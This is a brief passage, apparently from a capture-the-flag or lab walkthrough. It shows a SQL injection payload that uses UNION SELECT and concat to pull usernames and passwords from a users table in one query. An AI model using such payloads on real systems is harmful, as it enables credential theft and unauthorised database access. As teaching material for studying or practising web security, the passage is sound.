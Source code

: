 <figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We could try to do the same for the password and go from there but let's directly concat the 2 in one query:

```
abcd'union select 1,concat(username,':',password),3,4,5,6 from users;-- -
```
